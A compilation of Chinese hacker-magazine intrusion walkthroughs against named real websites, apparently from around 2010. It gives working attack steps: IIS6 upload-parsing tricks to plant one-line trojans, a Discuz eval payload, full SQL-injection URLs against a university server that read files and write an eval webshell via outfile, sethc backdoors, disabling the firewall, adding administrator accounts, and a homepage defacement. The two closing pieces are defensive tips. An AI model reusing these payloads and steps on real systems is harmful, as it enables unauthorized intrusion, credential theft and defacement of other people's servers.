CuteEditor for ASP.NET 中文版是建立在 Html 基础之上、最简单易用、功能最强大的所见即所得的 Asp.net 在线编辑器，它可以帮助 Asp.net 开发者轻松地对原来文本框中的内容（包括文字、图片等 Html 内容）进行编辑，更重要的是这些内容编辑的实现是所见即所得方式。同时这款编辑器还集成了文件（包括图片、文档等）上传、媒体（包括视频、声音等，支持 YouTube）、文件直接插入等对我们来说非常实用的功能模块。在功能丰富的同时，也受到了很多用户的青睐。以上就是对这款编辑器的简单介绍，本文所介绍的漏洞，主要是利用编辑器的文件上传再配合 IIS6.0 的解析所形成的，小菜们可以非常容易地利用这种方法来拿到 shell，下面我们就来具体地看下是如何利用这个漏洞批量获取 webshell 的。

首先我们在 google 中搜索“inurl:Post.aspx?SmallClassID=”，搜索的结果如图1所示，随便选择一个网站，这里我就选择了“http://www.cxy2010.com/”这个网站，打开网站后先注册一个帐号，相信注册过程大家都很熟悉了。注册成功后，随便进入一个板块，如图2。


然后点击“发表主题”进入内容编辑页面，我们要选择的是多媒体插入，如图3，单击浏览按钮，选择要上传的一句话木马，把文件后缀改为“xxx.php;xxx.avi”，因为上传的是多媒体文件，所以这里我们用的是 avi 后缀。为了方便各位叉子的理解，我再简单地介绍一下 IIS6.0 解析漏洞的成因，大家就权当是温故以前的知识吧。Windows 2003 存在着一个文件解析的漏洞，当文件夹的名字为类似 xxx.asp;xxx.xxx、xxx.php;xxx.xxx 的时候，这时该文件夹下的文件都可以在 IIS6.0 中被当做 ASP 或 php 等程序来执行。这样一来，攻击者就可以上传扩展名为 jpg 或 gif 之类的看起来像是图片文件的木马文件，通过访问这个文件就可以运行木马了。明白了这个原理后，我们点击上传文件，文件上传成功后一句话木马的地址就会显示在 URL 中，如图4。


大家结合网站的地址再加上文件的路径就得到了“http://www.cxy2010.com/DotBBS_Net/Uploads/Users/123456789/2010/5/8/x1.php;x1.avi”这个一句话木马的地址，我们复制这个网址打开看看，如图5所示，显示空白，说明我们的木马已经成功地被写入了，这时就可以使用一句话木马的客户端来进行连接，然后进行相关的操作了，如图6。


（文章中涉及到的一句话木马，已经收录在了光盘中）

## 利用重命名漏洞

### 免杀改webshell

放假了，在家好无聊啊，这天上网也没打开影子系统，也就不想再开那些黑客工具了，万一不小心中病毒了那可就麻烦了。来看看这两天人品咋样啊，昨晚有个哥们儿在群里发了一个网址，我打开看了一下，发现他把人家网站的主页给改掉了，还用来做广告，先来小小地鄙视一下 ^_^，我一直认为学习技术并不是为了做这些坏事的。

既然这个网站是被别人搞过的，我也就没啥兴趣了，从那个网站上随便打开了一个友情链接，嗯，原来是一家玻璃公司的网站。习惯性地在网址后面加上了 admin，结果后台蹦了出来。既然今天是来撞人品的，那就试一下默认的用户名和密码吧，没想到竟然就这么进来了，进入了后台感觉有点儿小小的失望。翻看了一下后台，找到了几个可以上传的页面，但没有找到备份的地方，那我们如何得到自己想要的 webshell 呢？

后台里很详细地列出了服务器的信息，从图1中我们可以看到服务器使用的是 Windows 2003 系统，服务器 IIS 版本为 Microsoft-IIS/6.0。直觉告诉我这里有解析漏洞可以利用，但到底要怎么利用呢，小菜们请继续往下看。

我搞网站的时候一般都是先想办法上传木马，然后再想办法恢复回来，谁让咱们是小菜呢！这次也不例外，但既然没有备份，我们也就不能简单地往上传了。来查看一下哪个地方可以上传文件吧，结果发现在添加产品的地方可以插入或修改图片，如图2，好了，就是它了。

上传 asp 文件时提示格式不对，只允许上传 jpg、gif 等，那我更改了后缀还不行吗？但让人郁闷的是更改了后缀依然不行，如图3所示，试了一下正常的图片是可以上传的，看来是对文件进行了某种判断，真是让小菜我发愁啊！

但大家发现没有，在上面还有一个远程上传，如图4。我从网上随手找了个图片链接试了一下，发现远程的图片是可以上传的。随后，我就把更改了后缀的木马文件先传到以前搞到的 webshell 上（当然我们也可以先传自己空间中），然后再使用远程上传图片，结果仍然不能上传，提示参数不正确。仔细想了想，正常的图片是可以上传的，改了后缀的却不可以上传，这可真让我陷入了僵局。

但舍格的汉子是不会轻易放弃的，我又试了一下图片木马，结果还是不行。没办法，看来只有另寻他路了。上面不是还有一个媒体类型上传吗，来试试这个吧，我把 asp 木马改成了 rm 格式，然后直接上传，奇迹出现了，哈哈，上传成功！原来这里只是对后缀进行了简单的判断。

但新问题也出现了，要怎样才能把上传的木马弄回 asp 格式呢？先别急，看到最下面的重命名没有？结合上面所说的 IIS6.0 解析漏洞，又该知道怎么做了吧。原先的名称是 2010261135633.rm，现在我们改一下，先点重命名，出现了如图5所示的页面，我们在 2010261135633 后面添加上“.asp;1”，再点击“修改”按钮，这样文件全名就改成了“2010261135633.asp;1.rm”。


文件默认的保存路径是“/upload”，但访问的时候却提示……找不到，唉，真是困难重重啊。我们先打开刚才添加的这篇文章，查看源文件，从源文件里看出了蹊跷，里面有这个路径“../system_dntb/upload/2010261135633.asp;1;m”，这不就是我们的网马吗？好了，把它添加到网址后面并补全地址，直接访问，哈哈，木马终于出现了，如图6，终于可以拿到群里跟朋友们炫耀一下了，嘿嘿。

可以直接执行命令，但我们上传一个 cmd.exe 后就可以执行简单的系统命令了，执行 systeminfo 命令后发现是四核处理器，而且是个独立服务器，呵呵。Shell 的权限很大，可以浏览各盘目录，而且端口也开了很多，如图7，安全性不容乐观啊！我又简单地试了一下“巴西烤肉”提权，发现漏洞已经被管理员补上了，还是另找时间再慢慢地提权吧……最后再重申一遍，技术是把双刃剑，我们要把它利用到对人有益的方向才行。


图6


图7

这次的入侵没有用到任何工具，能拿下网站全凭人品加细心。其实进入了后台不只是数据库备份可以拿到 webshell 的，一定要多注意一下细微的地方，我们有很多方法可以利用，比如今天的这个，利用重命名就导致了网站的沦陷。我查看了一下支持的组件，发现支持 wscript.shell，虽然不……

## 抓住细节——记入侵某教育网站

清屿长风


### 一、事出

第5期的杂志已经出来好多天了，正寻思着下一期给大家写点什么呢，恰好这几天正在帮一个群里的朋友检测一个网站，于是就把这个过程写了下来。朋友给出的目标网站是 http://www.xxx.com/，其界面如图1所示，使用的是什么 CMS 系统暂时还不太清楚，但是页脚地方却有个“管理员登录”的链接，点击打开，发现真的是后台的登录页面，如图2。


图2

大家应该清楚地看到了在后台登录页面上写着“学校网站管理系统 Div+Css 商业正式版 V2010”，到 Google 上搜索了一下，确实也找到了这套系统的介绍，数据库使用的是 Access 或 MSSQL，但即使是 Access 数据库也是随机名字的，看起来不太好办。在后台登录的地方我试了试 'or'='or' 等万能密码，也没有成功。


图1

### 二、路转

从 WEB 下手暂时遇到了困难，于是我打开扫描工具对目标服务器开始了全面细致的扫描，来看看目标服务器都开放了哪些端口，结果发现开放了 80、21、3389 端口。看到 3389 许多小菜朋友都会感到兴奋吧，我又使用 FTP 弱口令扫描工具检测了一下 FTP 账户，但是没什么结果。

其实我们还可以测试一下目标服务器是否存在溢出漏洞的，但这个成功的概率实在太小了。最后我又使用 WEB Security 工具检测了一下 WEB 的安全性，当然这里检测的内容也不少，SQL Injection、Directory Scan 等等。

在使用臭要饭的后台目录扫描工具的时候，得到了如图3所示的信息，看样子好像很有用，应该是数据库的备份文件，下载回来打开一看，是 ldf 和 mdf 文件，看来这个网站使用的是 MSSQL 数据库。我把下载回来的数据库备份文件导入到我的 Windows 2003 虚拟机的 MSSQL 中，使用查询分析器来读取管理员的登录账号，结果在 mxjywebsiteschoolsql 表中找到了 dbo.wygkcn_admin 字段，而且 admin 账户的密码为 c5b9629a16d63094，如图4，这是 MD5 加密过的，不过我的人品比较好，在 CMD5 网站上查询得到了明文密码为 mxadmin（不过这条密码在查询时是需要付费的）。


使用得到的密码顺利地登录进入了后台，如图5，接下来就是得到 Webshell 了。我在后台弄了很久，发现即使修改了上传文件的类型，上传的地方也死活都不能上传我们的 asp 木马，后台也没有数据库备份之类的功能。我到 Google 上搜索了一下，网上更没有关于这套系统的后台如何拿 webshell 的教程，看来只有自力更生了。

从后台看到了这套系统是网域商科搞出来的，于是就到他们官网下载了一套系统进行研究。在源码中寻找着有价值的线索，结果我在 inc 文件夹下找到了一个名为 config.asp 的文件，打开后如图6所示，这是很典型的网站配置信息，居然是存放在 asp 文件中，这可是很危险的。我在后台的“系统配置”－“网站属性”中找到了读写这个配置文件的地方，如图7。

这里的利用方式就很多了，我选择了在“自定义底部（BOTTOM）菜单：”中填入特殊构造的一句话“%><%execute request("#")%>”，这样就会使得 inc\config.asp 变成如图8所示的样子。充分闭合好前后的 asp 代码后，一句话木马就可以运行了，然后我们就可以使用一句话木马客户端来连接得到 webshell 了。填写好我们的一句话木马，保存修改，使用客户端进行连接，如图9所示，webshell 就这样到手了。


### 三、提权

Webshell 拿到手了，检测网站的任务应该说已经算是完成了，但是为了检测得更彻底一点，我准备再尝试一下看能不能获取系统权限拿下 3389。这台服务器还支持 aspx 解析，看起来提权还是很有希望的。一般来说 asp 的权限默认是低于 guest 权限的，因此在提权的时候限制会很多，甚至连本地溢出都不能使用，但是 aspx 的权限却是 user，所以我们的权限也就大了很多。

服务器上也没有什么常见的第三方提权软件，就连 FTP 也都是使用微软自带的。正当提权陷入僵局的时候，我突然想到了前些日子 360 安全卫士不是爆出了本地溢出漏洞吗？在网上找了找这方面的资料，才发现 360 安全卫士爆出这个漏洞已经很久了，只是很少有人注意。网上也有漏洞利用程序的源代码，大家可以自由地改造，我就使用了网上现成的一个编译好的测试程序，这个程序在溢出成功后会操作注册表利用映像建立一个 sethc 后门，将 sethc.exe 劫持到 cmd.exe 上。


图9


图11

服务器上的 cmd.exe、net.exe、net1.exe 都没有权限访问，我上传常用的程序也总是上传不成功。后来通过 webshell 执行了 tasklist 命令查看进程信息，才发现是服务器上的金山毒霸在作怪，如图10。把工具进行了免杀处理后才成功地上传到了可写目录“C:\RECYCLER\”，现在就可以执行 ipconfig 和 netstat 这样的简单命令了。但是 net 等命令依然无法执行。我试了试以前很好用的 MS08067 和 Taken Kidnapping 提权，但都失败了。服务器上还安装有 360 安全卫士，所以系统漏洞的补丁也应该都打齐了，所以不能利用系统漏洞进行溢出也很正常。

将漏洞利用程序经过免杀处理后上传到服务器上并执行，提示“Shift5 Backdoor created!”，这说明已经执行成功了，如图11。使用远程桌面连接服务器的 3389，按下 5 次 shift，sethc 后门弹出成功了，如图12。在弹出的 CMD 窗口中分别执行 `net user ccca$ ccca444 /add` 和 `net localgroup administrators ccca$ /add`，然后使用新添加的系统账号登录，成功地看到了桌面，至此最高权限已经拿到。


图10


图12

### 四、后记

本文的重点还是希望大家能够注重入侵过程中的细节问题，我们的目光必须敏锐才行，不能放过一丝可能的信息。还有就是利用 360 安全卫士提权虽然已经很老了，但是对于服务器升级效率不高的网站来说其威胁仍然不容小视。另外再说明一下，360 在默认情况下是不会自动升级修补这个漏洞的，我的虚拟机中的 360 依然存在此漏洞，但是最新的 7.0 是没有这个漏洞的，要修补此漏洞看来需要手动升级才行。另外，最近和 360 一同闹得沸沸扬扬的还有瑞星的本地提权，但是这个漏洞很快就被瑞星公司推出的补丁给修补了，程序自动升级就没有该漏洞了，所以在万般无奈的时候我们倒是可以检测一下 360 的提权漏洞！

（文章中涉及到的 Web 路径猜解、360 本地溢出程序，已经收录在了光盘中）

## 对安全中国网站的一次入侵检测及漏洞修补


这天正在群里闲聊，突然有人发出来一个“安全中国”的 web-shell。心中烦躁，决定按惯例先从主站扫描敏感文件；十多秒后看到扫描结果，便不想再继续从主站下手。

打开站点后发现页面较静态，右键查看图片路径也未发现可利用点。随后在站内发现论坛，像是 DZ 论坛；结合前些日子曝光的 0day，尝试在目录输入 `misc.php`，确认文件存在，准备使用 dz 漏洞利用方式继续测试。

> 在小菜的眼中，入侵网站无非就是那几种手法，网上也流传着一段“黑客入侵三字经”：
>
> 进谷歌，找注入。没注入，就旁注。  
> 没旁注，用 0day。没 0day，猜目录。  
> 没目录，就嗅探。拿不下，去自杀。  
> 爆账户、找后台、传木马、放大马。  
> 拿权限、挂页面、放暗链、清数据。


大家常说这是笑话，但常见的网站入侵方法基本都包含在其中。作者选择“旁注”方式，通过查询同服务器站点，筛选可能可利用的二级域名与程序入口。


最终选择了一个与“小手机”相关的网站（`www.xiaoshouji.com`），打开后点击新闻链接，发现是较静态页面，继续进行后续利用尝试。

```html
<form method="post" action="http://www.xiaoshouji.com/bbs/bbs2/misc.php" enctype="multipart/form-data">
<input type="text" name="tid" value="1" />
<input type="hidden" name="action" value="..." />
<input type="hidden" name="response[result]" value="1:2" />
<input type="hidden" name="scriptlang[1][2]" value="${${eval(chr(...))}}" />
</form>
```

```html
chr(41).chr(63).chr(62).chr(39).chr(41).chr(59))) ?>
<input type="submit" name="topicsubmit" value="提交" class="submit" />
</form>
```

打开之后，我们再在论坛上选择一个帖子的 id，比如“http://www.xiaoshouji.com/bbs/bbs2/viewthread.php?tid=16754&extra=page%3D1”这个链接，里面的参数是“tid=16754”，我们输入 16754 后点击“提交”，然后就可以使用 lanker 的一句话 php 后门进行连接了，如图4。


使用漏洞利用程序提交上去的 php 一句话后门的代码为 `<?phpeval($_POST[cmd])?>`，连接密码是 cmd。最后就可以小马拉大马，但是传上去后点击登录竟然都没有用，换了四五个也都是同样，真不知道是什么原因，还请高手们指点。

感觉 lanker 的 php 一句话后门的功能也比较齐全，就决定使用这个后门了（反正大马不能使用），开始思考我们的目标。

- 目标是安全中国的网站，大马不能使用，提权会很难。
- 这个后门也有很多功能，我们就使用它的功能来找找安全中国的网站目录吧，如图5。


结果发现管理员的安全意识非常好（不然咋会叫安全中国呢），特会忽悠人，小菜我又陷入了沉思，只好决定再换一个思路。这时想起了非常流行的提权方法，也就是替换 shift。我使用 lanker 后门里的复制功能把 `c:\windows\explorer.exe` 替换成了 `c:\windows\system32\sethc.exe`。

为什么不替换成 cmd.exe 呢？这是因为群里的一个好友告诉我说，该服务器上的 CMD 添加不了用户。点击“提交”后，显示了 ok，如图6，我们来连接一下服务器的 xxxx 端口；成功连接上了，一顿狂敲 shift 后，终于弹出了桌面（桌面的进程就是 explorer.exe，连续按五下 shift 就会激活 `c:\windows\system32\sethc.exe` 这个粘滞键）。

接下来该做什么就不用我多介绍了吧，如图7。


经过了 N+1 个小时的搜索，终于找到了网站的根目录；如图8，我又找到了小手机论坛目录下的 forumdata/cache，把这个目录的权限设置为禁止写入就可以了。接下来就是发泄的时间了，我精心仿照了一个页面，然后挂到了安全中国的首页上，并表达了一下自己的悲伤心情，如图9。


（文章中涉及到的明小子旁注入侵工具、lanker 一句话 php 后门，已经收录在了光盘中）

## 对一房地网站的安全检测

一兄弟发过来他朋友的一个站点，要我帮着检测检测，大牛借势，不敢马虎，经过两天的痛苦奋斗，终于发现了一些安全漏洞，于是也就有了本文。打开网站，典型的门户站点，下设了 N 个版块，有的是以二级域名的形式存在的，有的则是以子文件夹、虚拟目录等形式存在。

经过了一番的探测，收集到的服务器信息为：Windows 的系统，IIS6.0，脚本语言为 php 与 asp，php 的 gpc 为开启状态。

先拿 php 开刀；在一个名为“问房”的频道下找到了一个存在注入的 php 页面，正常页面如图1所示，在网址后面添加“1”提交后，返回了前一条新闻，如图2所示。


在使用“and 1=1”或“or 1=1”检测时，都被弹出了警告窗口，如图3所示。看来对提交的数据进行了判断，一旦出现了 and、or、*、select 等都将弹出警告信息，使用 url 编码后再次提交还是被拦截了。看到弹出的这个警告窗口，我不禁想到这会不会是只弹出警告窗口而程序代码仍会继续执行呢？立马来到 Internet 选项里，将安全性设为最高，禁止 JavaScript 的运行，再重新进行测试却发现页面输出为空白状态。查看源文件，还是刚才那个弹出警告窗口的 JavaScript 代码。

我不禁又遐想，程序过滤了小写的危险字符，那会不会忽视了大写字母呢？于是马上变换了一下，把 and 换成了 AND，结果证明我的猜想是正确的，如图4所示，防注入被顺利地绕过了。接着使用“ORDER BY”猜出了查询的列数，有 48 个字段，还挺多的呢，如图5。继续尝试，发现程序竟然将“()”也列为了危险字符。在开始检测前我已经从朋友那儿确认了 mysql 的连接用户为 root，这下想使用 load_file() 来查看文件的思路也被中断了，还是老老实实地查管理员的用户和密码再进入后台吧，密码的 MD5 值被顺利地查了出来。这才发现后台地址竟然不存在，添加 admin 后自动跳转到了另一个不存在的页面上，可能是管理员故意删掉了吧。综合分析，感觉从 php 下手的希望不大，反正下面还有很多栏目呢，还是看看别的再说吧。


转了转，来到 Tshop 目录，发现主页出错，爆出了物理地址，如图6。物理路径既然出来了，我就打算从主站下面的栏目中来继续查找 php 注入点，只要不存在与刚才同样的 BT 过滤的话，使用 load_file() 函数是异常方便呀。几经周折，终于在资讯搜索处找到了久违的多字节编码漏洞，如图7，但却发现无论输入什么进行查询，搜索结果都为空，估计搜索页面出错了。

没办法，从 php 下手实在是不容易啊，我只好去挑战其它的 asp 子目录站点。来到了调查问卷系统处，输入“1”查询出错了，如图8所示。从图中可以看到单引号被替换为了双引号，字符型注入只好作罢，来试试数字型的注入吧！查询“1 or 1=1”返回了错误，如图9，估计是字符型的注入点，单引号无法闭合。


图6


图7


图8


图9


图10


图11


图12

经过 N 次的寻找，来到了二手房租售栏目，使用 wwwscan 扫描了一下目录，如图10所示，后台目录出来了，还发现了 asp 探针的踪迹。懒得手动检测了，直接将 url 丢到了 Jsky 里，在它

# 一个人的战争

在一顿狂轰滥炸后，终于出现了注入点，如图11所示。我立马填到了阿D中，提示“恭喜，能够注入”，而且还是个DB的权限。目录很顺利地被列了出来，没有做任何的权限控制，全盘都可以浏览。在web目录里，我看到了N个网站，还有朋友的blog，其数据库名被改得相当BT，如图12所示。到这里，检测就没再继续了，我把所发现的问题记录了一下，发给了朋友。

在这次检测过程中，我们可以看到并没有使用到什么潮流的技术，依然是风光无限的注入。也由此可以看出，服务器的安全配置是重中之重。在开始的php注入上，mysql的登录用户是root权限。由于过滤脚本和gpc为开启状态的存在，让我们的load_file()和“select into”变得不可能，但我们完全可以通过查询information_schema.schemata表来得到mysql里的各个表名，然后查询information_schema.tables表得到各个表中的所有字段，再依次查询出各个版块的管理员账号和密码，利用社工等一系列办法登录后台进行webshell的获取。而在asp的这个注入点上，应该降低SQL用户的权限，比如使用public，或者删除SQL的相关扩展，禁止磁盘目录文件被列出。另外文件夹的权限也没有进行相应的设置，能自由地跳转到整个磁盘。

上面这些，都是服务器的配置所能实现的。一个完美的WEB程序如果架设在一个不完美的服务器上，同样是岌岌可危的；而一个完美的服务器对不完美的WEB程序却还是能够起到一点亡羊补牢的作用，这很值得我们广大的网站管理员朋友深思。

## 手工注入检测山东大学某分站

txcbg


图1


图2

最近正在学习MYSQL的手工注入，于是就想找个网站来练练手。在搜索引擎中搜索“inurl:showNews.php?id=23”，很快就找到了一个链接，是山东大学一个分站的链接，具体的链接地址为“http://202.194.34.100/wwwbak/showNews.php?id=23”，在网址后面添加“-0”提交后页面不变，如图1；而添加“-1”提交后页面内容发生了变化。这说明确实存在注入漏洞，如图2。

下面来看一下MYSQL的版本，提交：

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 and ascii(left(version(),1))>51
```

后，页面没有发生变化，说明数据库版本大于3，也就是版本为4.0以上，支持union查询，继续提交：

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 and ascii(left(version(),1))>52
```

页面也没有发生变化，说明MYSQL的版本为5.x，可以使用information_schema数据库爆库、爆表、爆字段。为了使用强大的union查询，我们先来猜测字段的长度，使用“order by”语句来猜，提交：

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 order by 16
```

页面没有发生变化，提交：

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 order by 17
```

时出错返回了网站首页，说明字段数为16，提交：

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
```

显示在2、3、10处可以用来显示信息，如图3。

来看一下当前使用的数据库以及连接数据库的用户，提交 `http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,database(),user(),4,5,6,7,8,9,10,11,12,13,14,15,16`，显示如图4所示，当前数据库为 jtbc_database，连接数据库的用户为 root。看到 root 我有点兴奋了，说不定还能拿下服务器权限呢，呵呵。

既然 MYSQL 数据库的版本为 5.x，那么就来直接爆表吧，提交 `http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,unhex(hex(group_concat(TABLE_NAME))),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from information_schema.TABLES where TABLE_SCHEMA=0x6A7462635F6461746162617365`，爆出了数据库 jtbc_database 中的所有表。其中 0x6A7462635F6461746162617365 就是数据库名 jtbc_database 的十六进制表示形式，我们使用小葵编写的 URL 编码转换工具可以转换，如图5。

爆出的表如图6所示，第一个表就是 jtb_admin，感觉有点儿像存放管理员信息的表。提交 `http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,unhex(hex(group_concat(COLUMN_NAME))),3,4,5,6,7,8,9,10,11,12,13,14,15,16 from information_schema.COLUMNS where TABLE_SCHEMA=0x6A7462635F6461746162617365 and TABLE_NAME=0x6A74625F61646D696E`，爆出了表 jtb_admin 中的所有列名。其中 0x6A7462635F6461746162617365 还是数据库名 jtbc_database 的十六进制表示形式，0x6A74625F61646D696E 是表名 jtb_admin 的十六进制表示形式，爆出的列名如图7所示。


图8

猜测 jtb_aname 和 jtb_apword 就分别对应管理员的用户名和密码，表和列名都有了，下面就来猜管理员的用户名和密码，提交：

`http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,jtb_aname,jtb_apword,4,5,6,7,8,9,10,11,12,13,14,15,16 from jtb_admin`

爆出了管理员的用户名为 admin，密码为 573bb79a2f0f7f6135c17a6cb9fa24a4，如图8。

密码是经过MD5加密的，我们拿到cmd5网站上去破解，却提示是一条付费记录。幸亏朋友有这个网站的会员，得到了密码为cjsxxxxx（为防止不必要的麻烦，密码的后5位我使用5个x代替了）。在网站地址后面直接添加admin就来到了后台登录页面，使用得到的用户名和密码顺利地进入了后台，如图9。通过后台首页显示的服务器环境信息，知道了操作系统为Windows，Web服务器软件为Apache，默认情况下Apache是以System权限运行的，也就是说只要我们得到一个phpshell就很可能获得System权限了。


图9

尝试在后台拿webshell，但是却没有成功，看来得另想办法拿shell了。这时我想到了连接数据库的用户为root，权限很大，应该可以outfile。要想通过outfile获得shell就必须满足两个条件：一是“magic_quotes_gpc = Off”，二是要知道网站的绝对路径。我们先假设magic_quotes_gpc的值为Off，剩下的就是要知道网站的绝对路径了。在后台没有找到关于网站绝对路径的信息，尝试通过使页面出错来爆出网站绝对路径也没有成功，因为页面一出错就会返回网站首页。我又想了一下，想到了MYSQL的内置函数@@basedir，它可以显示MYSQL的安装路径，提交 `http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,@@basedir,3,4,5,6,7,8,9,10,11,12,13,14,15,16`，得到了MYSQL的安装路径为“d:\Program Files\phpStudy\MySQL\”，如图10。


图10


图11

这个安装路径引起了我的注意，我记得phpStudy好像是一个集成Apache+PHP+MySQL+phpMyAdmin+ZendOptimizer的程序包，用来快速搭建PHP环境，很可能服务器上安装的就是phpStudy。我从网上下载了一个phpStudy进行安装，一切默认安装完成后，发现MYSQL在我电脑上的安装路径为“C:\Program Files\phpStudy\MySQL\”，网站的根目录为“D:\www”。我在“C:\Program Files\phpStudy\”目录下又发现了一个名为phpStudy.ini的文件，看扩展名好像是配置文件，使用记事本打开。在“[Apache]”对应的配置信息的“DocumentRoot =D:\www”（DocumentRoot字面理解为文件根目录）后面跟的“D:\www”正好是我电脑上网站根目录的绝对路径。由此我断定在phpStudy.ini中DocumentRoot后面跟的就是网站的绝对路径，我们可以通过load_file()读取phpStudy.ini来获得服务器上网站的绝对路径。

由于网站服务器上MYSQL的安装路径为“d:\Program Files\phpStudy\MySQL\”，于是我猜测服务器上phpStudy.ini的路径为“d:\Program Files\phpStudy\phpStudy.ini”，把“d:\Program Files\phpStudy\phpStudy.ini”转换为十六进制后提交注入语句，成功读取出了网站服务器上phpStudy.ini的内容，得到网站根目录的绝对路径为“D:\php\”，如图11。

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,load_file(0x643A5C50726F6772616D2046696C65735C70687053747564795C70687053747564792E696E69),3,4,5,6,7,8,9,10,11,12,13,14,15,16
```

由于注入点的地址为“http://202.194.34.100/wwwbak/showNews.php?id=23”，并猜测有“D:\php\wwwbak\”这个目录，于是决定outfile一句话木马到“D:\php\wwwbak\”目录下，名字为test2010.php。

```text
http://202.194.34.100/wwwbak/showNews.php?id=23 and 1=2 union select 1,0x3C3F706870206576616C28245F504F53545B785D293B3F3E,3,4,5,6,7,8,9,10,11,12,13,14,15,16 into outfile 'D:/php/wwwbak/test2010.php'
```

返回了网站首页，访问“http://202.194.34.100/wwwbak/test2010.php”，发现test2010这个文件已经生成了。运气不错，可以outfile，说明“magic_quotes_gpc = Off”。0x3C3F706870206576616C28245F504F53545B785D293B3F3E是一句话木马“<?php eval($_POST[x]);?>”的十六进制。使用lanker一句话PHP后门客户端来连接“http://202.194.34.100/wwwbak/test2010.php”，填写上密码x，成功获得了webshell，使用这个一句话木马就可以执行cmd命令，而且还是System权限哟，如图12。

终于获得shell了，而且还是System权限的shell，剩下的事情就好办了。通过执行“netstat -an”命令发现服务器的3389端口正在监听，使用远程桌面连接却连接不上。

命令“net start”发现Windows自带的防火墙服务“Windows Firewall/Internet Connection Sharing (ICS)”正在运行，于是执行命令“net stop sharedaccess”停止了Windows自带的防火墙。再次使用远程桌面连接，可以连接上了。再来执行命令“net user 123 123 /add”“net localgroup administrators 123 /add”，成功建立一个管理员用户123。最后就是登录远程桌面，然后上传抓取密码hash的工具来抓取系统用户的hash，再使用ophcrack成功破解出了管理员的密码，使用管理员用户成功登录了服务器，如图13。


图12

到这里整个检测过程就结束了，这时也不想再继续渗透内网了，删除刚才建立的用户，删除上传的shell，重新开启系统的防火墙，给管理员留了个提示信息，清理一下痕迹就要走人了。除了上传的shell外没有修改服务器上的任何文件，希望兄弟们在练手拿下服务器后也不要做任何破坏，这对大家都好。


图13

由于我是刚开始学习手工注入，所以全文也没什么技术含量，大家就当作是新手的一次练手笔记吧。呵呵，如果有不对的地方还请大家指正。

> （文章中涉及到的lanker一句话PHP后门客户端3.0内部版、URL编码转换工具，已经收录在了光盘中）

## 你的Windows自动登录安全吗？

### ——为系统自动登录添加“加密锁”

花的神明


为了保护系统的安全，最常用的方法就是给Windows设置登录密码，不过这也会影响系统的启动速度。对于许多个人用户而言，为了使用上的方便，经常会启用系统自动登录功能来加快系统启动的速度，不过这样也给系统的安全带来了隐患……使用Safe AutoLogon这款独特的安全软件是个不错的解决办法，它可以将自动登录彻底保护起来。


图1

实现自动登录的方法有两种，一种是在CMD下执行“rundll32 netplwiz.dll,UsersRunDll”命令……另一种是在注册表中定位到“HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/Current Version/Winlogon”……前一种的登录密码实际上经过加密保存在了“C:\WINDOWS\system32\config”下的SAM文件中，而后一种的密码则是以明文方式保存在注册表中的。

在窗口左侧点击“Security”按钮，在右侧窗口中勾选“Immediately lock the desktop at logon”项……勾选“Force the automatic logon even after the user logs off”项，表示当执行注销操作时，Safe AutoLogon将强制执行自动登录操作，如图2。

我们安装好Safe AutoLogon并运行后，它就会接管系统的自动登录功能，并且使用256位AES/Triple DES高强度加密算法对登录密码进行加密处理……在“General”中的“Delay the initial automatic logon”栏中可以设置自动登录的延迟时间。


图2

> （文章中涉及到的Safe AutoLogon已经收录在了光盘中）


# 安全第一

### 关于网店安全的一点小·愚·惑

MISHELL[寒X民间入侵组]

前几天一位朋友给我介绍了一个速度不错的免费空间，于是我就起了给BLOG搬家的念头。由于我的BLOG所在的空间在使用FTP的时候巨卡无比，我就只把文章、主题还有其他的一些文件复制了下来，并把复制下来的文件上传到了新空间中覆盖掉了旧文件（我事先已经在新空间中安装好了ZBLOG）。接下来我登录后台，结果却惊讶地发现后台地址竟然就是前一个BLOG的后台地址。


出现了这种情况后我马上就联想到，我们是否可以修改现有后台地址到自己的那个废弃的网站后台，这样的话恶意用户入侵的就是我们那个废弃的网站，也就变相地保护了我们真正的网站呢？事实证明这样是完全可以的，但要做到这点就要求我们必须拥有两个空间才行。在此我给大家推荐两个免费的空间：www.48mf.cn 和 www.goodkj.cn。前者的空间大小是100M，但速度不是很理想；而后者的空间大小是1G或者更大（根据IP量），速度也还不错，但它的主站访问很慢。下面我就以ZBLOG为例来介绍一下具体的应用。


我们申请好空间后，将ZBLOG程序的自动安装文件使用FTP分别传到两个空间中去。安装完毕设好管理账号和密码后登录进入后台（两个BLOG的管理账号和密码要完全相同），选择“链接管理”，在右侧的链接管理界面中看到那个“管理”了吗，它对应的链接也就是我们要修改的后台登录地址，如图1。大家先不要急着修改，因为我们还没有“替死鬼”的地址呢！记下“替死鬼”（也就是那个废弃的网站后台地址）的管理地址，如图2，再返回到被保护站点的后台，把“管理登录”对应的链接（也就是引导中间的部分）改为那个废弃的网站后台地址，这里也就是改为“http://mishell.48mf.cn/login.asp”，修改完毕后提交，然后我们再使用FTP登录真正的BLOG空间，把后台删除掉就可以了。

使用了这种方法，如果有人入侵了你的网站给你挂黑页，他们自以为入侵得很成功，殊不知自己只不过是入侵了一个废站而已。如果我们所用的程序出了什么可以直接爆管理账号密码的漏洞，而又没有及时打补丁的话，那么这种方法没准就可以让你的网站躲过一劫哦！


